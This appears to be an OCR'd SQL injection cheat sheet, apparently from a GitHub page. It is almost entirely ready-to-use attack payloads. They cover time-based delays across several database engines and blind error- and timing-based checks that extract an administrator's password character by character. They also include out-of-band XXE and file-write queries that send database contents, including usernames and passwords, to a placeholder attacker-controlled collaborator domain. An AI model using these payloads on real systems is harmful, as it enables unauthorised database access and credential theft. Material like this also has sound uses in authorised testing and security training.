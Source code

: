 #### TIME BASED
```sql
pg_sleep(10) --> PostgreSQL
dbms_pipe.receive_message(('a'),10) --> Oracle
DBMS_LOCK.SLEEP(10 --> Oracle
WAITFOR DELAY '0:0:10' --> Microsoft
SLEEP(10)  --> MySQL

```

#### BLIND BASED
```sql
-- oracle --
foo'||(select '' from dual)||'  -- no error
foo'||(select '' from noexisto)||'  -- error
foo'||(select '' from users where rownum= 1)||' -- no error? table user exists

(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual) --  true -> error
(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual) -- false -> no error
(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END from users where username='administrator') -- true/false -> /error/noerror 
(SELECT CASE WHEN LENGTH(password)>10 THEN TO_CHAR(1/0) ELSE '' END from users where username='administrator')
(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END from users where username='administrator')

AND 1=CAST((SELECT username FROM users ROWNUM 1) AS int)--

SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END from users--
SELECT CASE WHEN (username='administrator' AND LENGTH(password)>20) THEN pg_sleep(10) ELSE pg_sleep(0) END from users--
SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END from users--

```

#### OUT-OF-BAND
```sql
-- SQLI + XXE -> CHECK DNS CALLBACK
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://<COLLAB_DOMAIN>/"> %remote;]><root>&remote;</root>'),'/l') FROM dual;

-- SQLI + XXE OOB -> EXTRACT DATA --
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(<OOB_URL_CONCAT_EXPRESSION>)||'.<COLLAB_DOMAIN>/"> %remote;]><root>&remote;</root>'),'/l') FROM dual;

-- OOB -> READ FILES 
SELECT LOAD_FILE('\\\\<COLLAB_DOMAIN>\\<FILENAME>');

-- OOB -> WRITE FILES 
SELECT username, password INTO OUTFILE '\\\\<COLLAB_DOMAIN>\\<FILENAME>';
```
